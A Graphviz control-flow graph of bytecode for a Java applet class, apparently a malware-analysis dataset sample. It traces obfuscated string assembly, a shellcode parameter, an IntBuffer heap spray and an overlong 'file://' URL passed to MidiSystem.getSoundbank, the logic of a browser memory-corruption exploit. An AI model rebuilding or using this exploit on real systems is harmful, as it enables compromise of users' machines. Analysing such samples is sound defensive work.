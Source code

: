 digraph "" {
    "r0 := @this: AppleT"
    "push \"98f098f08f98f08f98f0\""
    "r0 := @this: AppleT"->"push \"98f098f08f98f08f98f0\"";
    "push \"8f\""
    "push \"98f098f08f98f08f98f0\""->"push \"8f\"";
    "push \"\""
    "push \"8f\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r4"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r4";
    "new java.lang.StringBuilder"
    "store.r r4"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"slkejfooseif\""
    "dup1.r"->"push \"slkejfooseif\"";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "push \"slkejfooseif\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"3453452342345345345345skjlkdfgedgergerg42\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"3453452342345345345345skjlkdfgedgergerg42\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"3453452342345345345345skjlkdfgedgergerg42\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"s3456235423423k356345345345kdfgergergergerg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"s3456235423423k356345345345kdfgergergergerg\"";
    "push \"s3456235423423k356345345345kdfgergergergerg\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r5"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "push 47"
    "store.r r5"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <AppleT: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"ksdlifseojslkejfow\""
    "dup1.r"->"push \"ksdlifseojslkejfow\"";
    "push \"ksdlifseojslkejfow\""->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "load.r r5"
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cccccccccccddddddddddddeeeeeeeeewef\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cccccccccccddddddddddddeeeeeeeeewef\"";
    "push \"cccccccccccddddddddddddeeeeeeeeewef\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "store.r r5"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <AppleT: java.lang.String repeat(char,int)>";
    "store.r r38"
    "staticinvoke <AppleT: java.lang.String repeat(char,int)>"->"store.r r38";
    "store.r r38"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "push \"oweijfowiejf\""
    "dup1.r"->"push \"oweijfowiejf\"";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "push \"oweijfowiejf\""->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cdfcdicdlcdecd:cd/cd/cd\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cdfcdicdlcdecd:cd/cd/cd\"";
    "push \"cd\""
    "push \"cdfcdicdlcdecd:cd/cd/cd\""->"push \"cd\"";
    "push \"cd\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r38"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r38";
    "load.r r38"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z123Z123Z123Z123Z123Z123\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z123Z123Z123Z123Z123Z123\"";
    "push \"123\""
    "push \"Z123Z123Z123Z123Z123Z123\""->"push \"123\"";
    "push \"%\""
    "push \"123\""->"push \"%\"";
    "push \"%\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r5";
    "load.r r0"
    "store.r r5"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"edc\""
    "load.r r0"->"push \"edc\"";
    "push \"ed\""
    "push \"edc\""->"push \"ed\"";
    "push \"s\""
    "push \"ed\""->"push \"s\"";
    "push \"s\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>";
    "load.r r4"
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"->"load.r r4";
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r4"->"virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <AppleT: java.nio.IntBuffer[] mem>"
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <AppleT: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <AppleT: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r5";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r5"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
}
